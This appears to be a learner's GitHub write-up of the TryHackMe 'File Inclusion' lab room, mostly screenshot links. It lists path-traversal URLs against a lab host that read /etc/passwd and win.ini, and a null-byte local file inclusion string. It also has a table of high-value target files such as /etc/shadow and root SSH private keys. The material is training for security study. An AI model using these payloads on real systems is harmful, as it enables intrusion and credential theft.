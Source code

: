 [TryHackMe | File Inclusion](https://tryhackme.com/room/fileinc)

# TryHackMe-File-Inclusion
'**File Inclusion:**  This room introduces file inclusion vulnerabilities, including Local File Inclusion (LFI), Remote File Inclusion (RFI), and directory traversal.`

## Task 1 Introduction
![image](https://user-images.githubusercontent.com/58542375/173562517-0fd0332f-1dcf-4eb6-930b-ea733680e0e7.png)

## Task 2 Deploy the VM

## Task 3 Path Traversal
[PHP: file_get_contents - Manual](https://www.php.net/manual/en/function.file-get-contents.php)

![image](https://user-images.githubusercontent.com/58542375/173564652-1c6871a3-35a5-418b-abe1-72241193152e.png)

![image](https://user-images.githubusercontent.com/58542375/173564886-67831530-4ba2-4445-ab51-e538e0af6a93.png)

![image](https://user-images.githubusercontent.com/58542375/173565211-10cb2f8f-3fb7-47a1-ae36-4de62e541d07.png)

*dot-dot-slash attack*

`http://webapp.thm/get.php?file=../../../../etc/passwd`

`http://webapp.thm/get.php?file=../../../../boot.ini`

`http://webapp.thm/get.php?file=../../../../windows/win.ini`

```
C:\Windows>cd ..

C:\>dir *.ini
 Volume in drive C is Windows
 Volume Serial Number is BADE-41F7

 Directory of C:\

File Not Found
```

```
C:\Windows>dir *.ini
 Volume in drive C is Windows
 Volume Serial Number is BADE-41F7

 Directory of C:\Windows

07-Jun-20  03:31 PM            37,625 cfgall.ini
06-Jun-18  02:44 AM               219 system.ini
06-Jun-18  02:44 AM                92 win.ini
               3 File(s)         37,936 bytes
               0 Dir(s)  45,286,510,592 bytes free

C:\Windows>type win.ini
; for 16-bit app support
[fonts]
[extensions]
[mci extensions]
[files]
[Mail]
MAPI=1
```

|Location|Description|
|----------|------------|
|/etc/issue| contains a message or system identification to be printed before the login prompt.|
|/etc/profile|controls system-wide default variables, such as Export variables, File creation mask (umask), Terminal types, Mail messages to indicate when new mail has arrived|
|/proc/version|specifies the version of the Linux kernel|
|/etc/passwd|has all registered user that has access to a system|
|/etc/shadow|contains information about the system's users' passwords|
|/root/.bash_history|contains the history commands for root user|
|/var/log/dmessage|contains global system messages, including the messages that are logged during system startup|
|/var/mail/root|all emails for root user|
|/root/.ssh/id_rsa|Private SSH keys for a root or any known valid user on the server|
|/var/log/apache2/access.log|the accessed requests for Apache  webserver|
|C:\boot.ini|contains the boot options for computers with BIOS firmware|

## Task 4 Local File Inclusion - LFI
![image](https://user-images.githubusercontent.com/58542375/173569223-618fb0a2-c5c9-4e79-9465-9622322ab422.png)

![image](https://user-images.githubusercontent.com/58542375/173571368-0162dbef-2b3f-41af-918d-c39c119c0773.png)

## Task 5 Local File Inclusion - LFI #2
*NullByte* `%00`

![image](https://user-images.githubusercontent.com/58542375/174087161-2dee0f9f-8598-41fd-a854-6ed4d85f0756.png)

![image](https://user-images.githubusercontent.com/58542375/174087424-cea7c291-3b65-42d1-b17c-289866414575.png)

`include("languages/../../../../../etc/passwd%00").".php");`

![image](https://user-images.githubusercontent.com/58542375/174106633-be705e4f-8bcd-422c-b4c9-973577bce1d9.png)

![image](https://user-images.githubusercontent.com/58542375/174107025-413f758e-caa8-4734-afb7-e5255d881fa5.png)

![image](https://user-images.githubusercontent.com/58542375/174107409-e3e199de-be90-45ed-8247-49329ab31746.png)

![image](https://user-images.githubusercontent.com/58542375/174108235-f3dd51f4-39c1-42f3-95ee-02d8c618389e.png)
